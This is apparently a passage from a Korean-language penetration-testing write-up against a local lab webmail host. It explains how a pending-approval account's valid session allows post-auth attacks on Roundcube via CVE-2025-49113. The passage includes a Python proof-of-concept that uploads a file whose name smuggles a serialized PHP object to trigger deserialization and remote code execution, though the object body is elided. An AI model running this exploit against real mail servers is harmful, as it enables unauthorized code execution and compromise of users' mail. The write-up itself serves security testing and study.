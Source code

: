```bash
- Burp Suite 등으로 요청 조작
- 세션 쿠키를 활용한 공격

💡 UI는 차단되었지만 백엔드 세션은 유효!
   → Post-Auth 공격 가능
```

### 시나리오 2: PoC 스크립트 활용

```python
# CVE-2025-49113 PoC
# GitHub: hakaioffsec/CVE-2025-49113-exploit

import requests

target = "http://webmail.1xinv.local"
username = "test@1xinv.com"  # 승인 대기 계정
password = "your_password"

# 1. 로그인 (승인 대기 상태)
session = requests.Session()
login_response = session.post(f"{target}/?_task=login", data={
    "_user": username,
    "_pass": password,
    "_action": "login"
})

print(f"[+] 로그인 상태: {session.cookies.get('roundcube_sessid')}")

# 2. UI는 차단되었지만 백엔드 API는 세션만 확인
#    따라서 직접 HTTP 요청으로 취약점 공격 가능

# 3. 악성 페이로드 전송 (UI 우회)
payload_filename = '12xxx|b:0;payload|O:17:"Crypt_GPG_Engine":1:{...}xxx|.png'

files = {'_file': (payload_filename, open('image.png', 'rb'), 'image/png')}
response = session.post(
    f"{target}/?_task=settings&_action=upload",
    files=files,
    params={'_from': 'identity'}
)

# 4. RCE 트리거
# 세션 재로드 시 악성 객체 deserialize
# → 임의 명령 실행

💡 핵심: 플러그인은 UI만 차단, 백엔드 API는 세션만 체크
         → 직접 HTTP 요청으로 우회 가능!
```

---
